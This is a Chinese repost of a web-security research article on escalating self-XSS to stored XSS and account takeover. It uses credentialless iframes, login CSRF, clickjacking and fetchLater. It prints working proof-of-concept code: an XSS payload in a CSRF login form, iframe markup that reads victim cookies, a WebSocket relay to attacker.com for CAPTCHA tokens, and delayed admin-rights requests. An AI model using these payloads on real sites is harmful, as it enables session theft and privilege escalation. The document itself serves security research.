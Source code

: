 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247530905&idx=1&sn=7008b1da8378c0c1c830f9b7863867e2

#  让 Self-XSS 再次伟大  
 Ots安全   2025-06-15 06:08  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
《Make Self-XSS Great Again》是一篇由 Slonser Notes 发布的博客文章，发布于 2025 年 6 月 13 日，旨在为安全研究人员和专业人士提供深入探讨如何将传统的 Self-XSS（自助式跨站脚本攻击）漏洞升级为更具威胁性的 Stored XSS（存储型跨站脚本攻击）的技术性指南。该文章特别针对在授权测试范围内的安全专家，明确声明其内容仅用于合法的渗透测试，并免除作者对不当使用所导致的任何损害的责任。  
  
  
文章核心内容  
  
文章从安全研究中常见的困境入手，即许多 XSS 漏洞因需要攻击者在目标账户内执行复杂操作而难以利用，导致其实际价值被低估，特别是在漏洞赏金计划中常被归类为低优先级或“无法利用”的问题。作者通过分析现代浏览器技术的进步，特别是 credentialless iframe（无凭证 iframe）的引入，提出了一种创新的方法来突破这一限制。  
1. Credentialless Iframe 的作用  
  
文章详细解释了 credentialless iframe 的工作机制，这种技术通过创建新的短暂上下文加载页面，从而避免使用原始会话的凭证。作者通过代码示例（如使用   
<iframe src="http://victim.domain/" credentialless>  
）展示了如何在不依赖目标会话的情况下加载页面，并通过与常规 iframe 的同源特性实现跨上下文操作。例如，攻击者可以在 credentialless iframe 中执行恶意脚本，访问并操纵原始页面的 cookie（如   
window.top[1].document.cookie  
），从而实现会话劫持或账户接管。  
  
1. 结合 CSRF 攻击的升级策略  
  
作者进一步探讨了如何将 Self-XSS 与 CSRF（跨站请求伪造）结合，尤其是针对登录表单的攻击。文章提供了一个具体的 PoC（攻击证明），通过构造一个包含恶意用户名（如   
<img src=x onerror=eval(window.name)>  
）的 CSRF 表单，诱导用户登录攻击者账户，并在 credentialless iframe 中执行脚本，提取受害者与攻击者的 cookie 值。作者还讨论了在登录表单存在 CAPTCHA（验证码）的情况下如何调整策略，通过 WebSocket 实现动态获取验证码并继续攻击。  
  
1. 替代方法：Clickjacking 与 fetchLater API  
  
当目标网站启用   
X-Frame-Options: Deny  
 阻止 iframe 加载时，文章介绍了 Clickjacking（点击劫持）作为替代手段，通过伪装用户界面诱导受害者在攻击者控制的页面上输入凭证。更为创新的是，作者提到了 2025 年春季引入的   
fetchLater  
 API，该 API 允许在页面关闭后延迟发送请求，从而在受害者下次登录时以其当前 cookie 执行恶意操作。这一技术显著扩展了 Self-XSS 的攻击窗口。  
  
  
  
  
介绍  
  
许多安全研究人员都经历过发现 XSS 漏洞的痛苦经历，这种漏洞需要在账户内执行复杂的操作，实际上只能在攻击者的账户上重现，从而失去了实用价值。许多漏洞赏金猎人可能都收到过来自分类团队的类似回复：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nVmWzdvplxE302MCm9McTFAHJ8yqLJLQuul2eDC2RtuWCKjr3B1aicicA/640?wx_fmt=png&from=appmsg "")  
  
本文的目的是证明，人们通常认为的东西实际上可以通过使用现代浏览器功能Stored Self-XSS转变为常规的东西。Stored XSS  
  
无凭证时代  
  
此类漏洞面临的关键挑战是以下困境：  
1. 为了执行有用的 XSS 有效载荷，我们需要登录攻击者的帐户  
  
1. 如果我们登录攻击者的帐户，攻击就失去了目的，因为我们将处于攻击者的会话中，并且无法访问原始会话  
  
然而，这种方法已经过时了，其原因是无凭证的 iframe  
  
这会导致使用新的、短暂的上下文加载无凭证中的文档<iframe>——这些上下文无法访问与其来源相关的数据  
  
实际上，这意味着如果我们打开包含以下内容的 HTML 页面：  
  

```
<iframe src=&#34;http://victim.domain/&#34; width=&#34;40%&#34; height=&#34;500px&#34; credentialless></iframe>
<iframe src=&#34;http://victim.domain/&#34; width=&#34;40%&#34; height=&#34;500px&#34;></iframe>
```

  
  
我们将看到第一个 iframe 不会有受害者的会话，而第二个 iframe 会有：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nkZ3Rvq23hiclvBHqxcZ5IL4WCWCFITiamtqyjobuErdZY7eibdWjE1ZCg/640?wx_fmt=png&from=appmsg "")  
  
然而，此功能记录不全，并且该短语those contexts don't have access to the data associated with their origins可能会产生误导。  
  
查看RFC，我们可以看到无凭证 iframe 与常规 iframe 是同源的（其中提到由于实现困难，类似沙盒域的不透明来源并未实现）：  
> 我们提出的无凭证 iframe 模型依赖于分区存储（参见解释），并在存储键中使用 nonce。我们还考虑将不透明来源添加到无凭证 iframe，类似于沙盒 iframe。这将确保无凭证 iframe 在其来源更改为不透明来源后无法访问现有凭证和共享存储。  
>   
> 此解决方案遇到兼容性问题：  
>   
> …  
  
  
无凭证同源问题  
  
无凭证 iframe 与常规 iframe 同源，这对我们来说意味着什么？  
  
让我们考虑以下页面：  
  

```
<iframe src=&#34;https://neplox.security/xss_page_url&#34; width=&#34;20%&#34; height=&#34;20%&#34; credentialless></iframe>
<iframe src=&#34;https://neplox.security/&#34;></iframe>
```

  
  
事实是，如果/xss执行以下代码：  
  

```
window.top[1].document.body.innerHTML = 'Hi from credentialless';
alert(window.top[1].document.cookie);
```

  
  
它将获得该页面原始 cookie 的访问权限：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nfdQJN1n1SrEfwZ3c6vkJUFKY0AyL7YDyoMvMSH3p59uV4oJ93RRe9Q/640?wx_fmt=png&from=appmsg "")  
  
登录时出现 SELF-XSS + CSRF  
  
假设你发现了一个存储型 SELF-XSS。根据我的经验，一个真实的例子如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3noXYusfH2SK5mZ6KickOATh4LUJPUYY1ObXZCV5gLHuKV2Reet7GAAvg/640?wx_fmt=png&from=appmsg "")  
  
主页显示一条消息Welcome, username!，其中用户名未经过滤，允许任何XSS攻击载荷被插入。这是一个典型的Self-XSS示例。  
  
之后，值得检查一下/login表单。如果它缺少 CSRF 保护，您可以执行以下操作：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nPB8oSECjBFLYYED6AK11KHJuqH2YAw95b6zzm5hVNKctL7jWZvwjiaw/640?wx_fmt=png&from=appmsg "")  
  
1、创建一个经典的 CSRF 登录表单：  
  

```
<html>
<body>
  <formaction=&#34;http://victim.domain/login&#34;method=&#34;POST&#34;>
    <inputtype=&#34;hidden&#34;name=&#34;username&#34;value=&#34;attacker_username<img src=x onerror=eval(window.name)>&#34; />
    <inputtype=&#34;hidden&#34;name=&#34;password&#34;value=&#34;Super_s@fe_password&#34; />
    <inputtype=&#34;submit&#34;value=&#34;Submit request&#34; />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

  
  
2、将目标导向以下页面：  
  

```
<iframe name=&#34;window.top[1].document.body.innerHTML = 'edited by slonser</br>' + 'Our cookie is: ' + document.cookie + '\nVictim cookie is: ' + window.top[1].document.cookie;&#34; src=&#34;./logi-csrf-poc.html&#34; width=&#34;40%&#34; height=&#34;500px&#34; credentialless></iframe>
<iframe src=&#34;http://localhost:3004/&#34; width=&#34;40%&#34; height=&#34;500px&#34;></iframe>
```

  
  
3、（可选）将无凭证 iframe 中的用户重定向到触发 SELF-XSS 的 URL，该 URL 随后会在 中执行所需的操作（会话窃取/ATO）window.top[1]。需要注意的是，同一文档中的所有无凭证框架都共享相同的上下文。如果您已经在<iframe src=//example.com credentialless>设置了 Cookie 和 localStorage 的页面上添加了一个，则添加的框架<iframe src=//example.com/path1 credentialless>将可以访问与第一个无凭证框架相同的存储数据。  
  
在我们的例子中，它看起来像这样：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3n5Pq2u5F9SwxngIaOB1bBUuyrXQoADMWpH1SOoqLGyvWfjJPXejIOtw/640?wx_fmt=png&from=appmsg "")  
  
可以看到，我们成功获取了攻击者和受害者的 Cookie 值。要使用受害者的凭证在框架内执行操作，只需调用window.top[1].eval('your code')  
  
使用验证码登录时出现 SELF-XSS + CSRF  
  
有时您可能会遇到登录表单缺乏 CSRF 保护但包含 CAPTCHA 的情况。这种情况不会显著增加漏洞利用的复杂性。关键在于 CAPTCHA 并非 CSRF 保护机制，因为无法保证 CAPTCHA 是在提交的同一设备上被解决的。  
  
在这种情况下，你可以简单地在上一节的攻击中添加一个 CAPTCHA 检索步骤。这是一个简单的客户端实现：  
  

```
const ws = new WebSocket('ws://attacker.com:3004');
ws.onopen = () => {
  ws.send(JSON.stringify({ type: 'visited' }));
};

ws.onmessage = (event) => {
  const data = JSON.parse(event.data);
  if (data.type === 'captcha') {
    captchaInput.value = data.captchaToken;
  }
};
```

  
  
在服务器端：  
  

```
const WebSocket = require('ws');
const readline = require('readline');

const wss = new WebSocket.Server({ port: 3004 });

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

console.log('WebSocket server is running on port 3004');
wss.on('connection', (ws) => {
    console.log('New client connected');
    ws.on('message', (message) => {
        const data = JSON.parse(message);
        if (data.type === 'visited') {
            console.log('Client sent visited message');
            rl.question('Enter captcha token: ', (token) => {
                ws.send(JSON.stringify({
                    type: 'captcha',
                    captchaToken: token
                }));
            });
        }
    });

    ws.on('close', () => {
        console.log('Client disconnected');
    });
});
```

  
  
这是一个简单的例子，当用户访问网站时，我们会收到一个请求，并需要在控制台中输入验证码令牌（例如，通过代理手动拦截）。显然，对于真正的攻击，你可以实现更复杂的逻辑——这只是为了演示一种可能的实现方法。  
  
SELF-XSS + 点击劫持  
  
如果登录 CSRF 攻击不可用，我们可以使用点击劫持 (Clickjacking)。其核心思想看起来挺有意思的——利用点击劫持，我们需要让用户在登录表单中输入攻击者的凭证（这实际上与传统的攻击方式完全相反，传统的攻击方式是人们试图利用社会工程学让用户在攻击者的表单中输入数据）。  
  
虽然我不是这类技术的专家，但它可能看起来像这样：  
  
1、用户访问攻击者的网站并请求访问  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nIupa0gIz3jHHFZVwA3KT5op1ZP8D8dqLIyALb40aglIrjHOoPicoefA/640?wx_fmt=png&from=appmsg "")  
  
2、用户收到一封内容如下的电子邮件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nPTMRTKt6Mxkia9YHhib1OZdNJwdSXEjodvCeYW65EFv7sH42mb6VCtvQ/640?wx_fmt=png&from=appmsg "")  
  
3、用户访问攻击者的网站并使用这些凭证登录，但他们不会在攻击者网站的表单中输入数据，而是在 的表单中输入数据victim.com。（只需从您的网站插入一个带有覆盖层的无凭证表单即可。本文不讨论如何实施点击劫持。）  
  
值得注意的是，由于用户输入的数据是来自attacker.com同一网站，因此所有内容在用户看来都是有效的。普通用户不太可能意识到攻击者正在使用点击劫持技术将他们引导至自己的账户进行攻击。  
  
X-Frame-Options：拒绝  
> 注意：fetchLater 旨在在页面关闭后发送请求，但我不确定在撰写本文时如何让它在页面关闭后正常工作。如果我弄清楚了，我会更新这篇文章。  
  
  
你可能已经注意到，上面描述的技术有一个缺点——只有当我们能把目标网站放在 iframe 中时，它们才会起作用。但是，如果X-Frame-Options: Deny指定了 iframe，我们该怎么办呢？  
  
实际上，2025 年春季推出的另一个新 API 可以帮助我们——fetchLater  
> fetchLater() API 提供了一个接口来请求延迟提取，可以在指定的时间段之后或者在页面关闭或离开时发送。  
  
  
简单来说，这意味着即使标签页已经关闭，我们也可以在一段时间后发送请求。这样一来，即使请求的 cookie 已经发生更改，我们也可以发送包含请求时实际 cookie 的请求。这在什么情况下有用？当我们遇到 Self-XSS 漏洞，并且可以通过一系列请求来提升权限/执行 ATO 时，这种方法就非常有用。具体如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taczGMsy4yCZ2qTuE6Hvsu3nsORWFSmd3jhLoDAOu10YI53Ao9o4WgsBgQPG7gsa4pzJmMSwmMkBDw/640?wx_fmt=png&from=appmsg "")  
  
1、使用 csrf-login 打开页面 -window.open('https://victim.domain/csrf')  
  
2、从触发 Self-XSS 的窗口，注册多个不同时间间隔的 fetchLater 请求  
  

```
var req = new Request(&#34;/change_rights&#34;,{method:&#34;POST&#34;,body:JSON.stringify({username:&#34;victim&#34;, rights: &#34;admin&#34;}),credentials:&#34;include&#34;})
const minute = 60000
let arr = [minute, minute * 60, minute * 60 * 24, ...]
for (let timeout of arr)
  fetchLater(req,{activateAfter: timeout})
```

  
  
1、注销攻击者的帐户  
  
当用户下次访问我们攻击的网站并再次登录时，一段时间后，攻击者创建的请求将以他们的名义执行，但会使用当前的 cookie。需要再次强调的是，受害者不应再次访问攻击者的网站，因为该请求已经位于后台队列中。  
  
结论  
  
在现代浏览器中，由于无凭证框架的存在，任何存储型自攻击 XSS 都可以转换为常规 XSS。然而，这通常仍然需要极少的用户交互。  
  
参考  
  
无凭证 iframe 文档  
  
https://developer.mozilla.org/en-US/docs/Web/Security/IFrame_credentialless  
  
匿名 iframe RFC  
  
https://wicg.github.io/anonymous-iframe/[#alternatives]()  
-opaque-origins  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
